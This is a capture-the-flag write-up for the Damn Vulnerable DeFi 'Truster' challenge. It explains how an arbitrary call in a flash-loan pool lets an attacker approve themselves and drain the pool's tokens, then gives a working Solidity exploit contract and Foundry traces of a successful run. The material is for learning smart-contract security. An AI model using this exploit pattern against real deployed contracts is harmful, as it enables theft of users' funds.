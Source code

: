 # Damn Vulnerable Defi - Truster
- Scope
    - TrusterLenderPool.sol
    - DamnValuableToken.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Inproper implementation of `flashLoan()` that allows calling arbitrary functions

### Summary
The `flashLoan()` function in `TrusterLenderPool.sol` allows calling arbitrary functions which does not follow the standard approach. This can be exploited to drain the tokens inside the pool.

### Vulnerability Details
The `target.functionCall()` is an improper practice and allows calling arbitrary functions.
```diff
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
+        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```
### Impact/Proof of Concept
1. flashLoan() give the user the freedom to call any function they want in "target.functionCall(data)"
2. To abuse it, we need call flashLoan() and provide our malicious calldata. There are a few things we need to fulfill:  
    (a) We need to ensure the pool's balance is the same as before so the tx will not revert  
    (b) We can perform transferFrom() pool to recovery. But we require approve() allowance from pool first
3. Hence, our calldata need to include approve()
4. Lastly, player must complete this in one tx, hence we create the malicious codes in another contract and use player to call it (count as one tx).
```
function test_truster() public checkSolvedByPlayer {
        TrusterExploit exploit = new TrusterExploit(address(token), address(pool), recovery, player);
        exploit.attack();
    }
    
contract TrusterExploit {
    DamnValuableToken public token;
    TrusterLenderPool public pool;
    address public recovery;
    address public player;

    uint256 constant TOKENS_IN_POOL = 1_000_000e18;


    constructor(address tokenAddress, address poolAddress, address recoveryAddress, address playerAddress){
        token = DamnValuableToken(tokenAddress);
        pool = TrusterLenderPool(poolAddress);
        recovery = recoveryAddress;
        player = playerAddress;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                TOKENS_IN_POOL
            );

        pool.flashLoan(0, address(player), address(token), data);
        // Manual transferFrom()
        token.transferFrom(address(pool), address(recovery), TOKENS_IN_POOL);
        console.log("pool Balance", token.balanceOf(address(pool)));
        console.log("recovery Balance", token.balanceOf(address(recovery)));
    }

}
```

Results
```diff
[PASS] test_truster() (gas: 426138)
Logs:
  pool Balance: 0
  recovery Balance: 1000000000000000000000000

Traces:
  [453638] TrusterChallenge::test_truster()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return] 
    ├─ [321179] → new TrusterExploit@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 1159 bytes of code
    ├─ [82529] TrusterExploit::attack()
    │   ├─ [43132] TrusterLenderPool::flashLoan(0, player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 0x095ea7b3000000000000000000000000ce110ab5927cc46905460d930cca0c6fb466621900000000000000000000000000000000000000000000d3c21bcecceda1000000)
    │   │   ├─ [2519] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   ├─ [4974] DamnValuableToken::transfer(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], 0)
    │   │   │   ├─ emit Transfer(from: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], amount: 0)
    │   │   │   └─ ← [Return] true
    │   │   ├─ [24523] DamnValuableToken::approve(TrusterExploit: [0xce110ab5927CC46905460D930CCa0c6fB4666219], 1000000000000000000000000 [1e24])
    │   │   │   ├─ emit Approval(owner: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], spender: TrusterExploit: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000000 [1e24])
    │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   ├─ [519] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   └─ ← [Return] true
    │   ├─ [28428] DamnValuableToken::transferFrom(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 1000000000000000000000000 [1e24])
    │   │   ├─ emit Transfer(from: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1000000000000000000000000 [1e24])
    │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   ├─ [519] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   └─ ← [Return] 0
    │   ├─ [0] console::log("pool Balance", 0) [staticcall]
    │   │   └─ ← [Stop] 
    │   ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   ├─ [0] console::log("recovery Balance", 1000000000000000000000000 [1e24]) [staticcall]
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::getNonce(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] VM::assertEq(1, 1, "Player executed more than one tx") [staticcall]
    │   └─ ← [Return] 
    ├─ [519] DamnValuableToken::balanceOf(TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Pool still has tokens") [staticcall]
    │   └─ ← [Return] 
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

```
